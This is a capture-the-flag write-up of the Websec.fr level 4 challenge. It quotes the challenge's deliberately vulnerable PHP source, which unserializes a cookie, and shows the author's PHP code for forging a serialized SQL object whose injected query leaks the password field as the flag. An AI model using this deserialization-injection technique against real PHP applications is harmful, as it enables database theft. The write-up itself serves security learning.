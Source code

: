 ```yaml
---
title: Websec.fr level 4 - baby steps
date: April 12, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/88d3440d-cee4-486d-9990-9e950a62e554)
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/fba91e37-3f96-4236-8eee-14ca3015b98b)

```php
source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

```php
source2.php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

ok let's look at the first php script.
We can see that if we set a cookie within the header under the parameter <b>leet_hax0r</b> that is an SQL object and
1. Serialized
2. base64 encoded

And don't set the ip (because then it won't be equal to $_SERVER['REMOTE_ADDR']) it will die, which is good for us, why ?

Looking into the second php script we can see in the <b>ret = $this->execute ();</b>. Meaning, the die function will execute our query. Let's dive in.

First, we want to create a serialized object with a query, and see that we get an appropriate response back from the website.

```php
// serialize_object.php
<?php
class SQL {
  public $query;

  public function __construct($query) {
    $this->query = $query;
  }
}

$query = new SQL("SELECT username FROM users WHERE id=1");
$serialized = serialize($query);
echo $serialized;
?>
```

We use the query from the source1.php script 
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/49fb2442-5eba-4c76-a331-30fc272774eb)

Now base 64, and curl to get a response
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/da0279ec-1cfd-4cf7-bdd7-ef51ab513304)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/273fc908-dcfc-499d-8010-829e9e779b7d)


OK ! now we know how to interact with the website and the server. But how do we get the flag ? 

Look at this peace of code from source2.php 
```php
if (false !== $ret) {    
    while (false !== ($row = $ret->fetchArra(SQLITE3_ASSOC))) {
        echo '<class="well"><strong>Username:<strong' . $row['username'] . '</p>';
    }
}
```

looks like there might be something interesting in 'username' field. Let's check if we can query the password of the username in that row

```php
<?php
class SQL {
  public $query;

  public function __construct($query) {
    $this->query = $query;
  }
}

$query = new SQL("SELECT password AS username FROM users WHERE id=1");
$serialized = serialize($query);
echo $serialized;
?>
```

same steps like before:
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/90b84d09-fce0-4e28-98bc-34f60cff7e0e)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/f897dfd0-7235-4144-a34e-3f134f70324e)

Looks like we got the flag !! <br></br>
Thanks for reading !


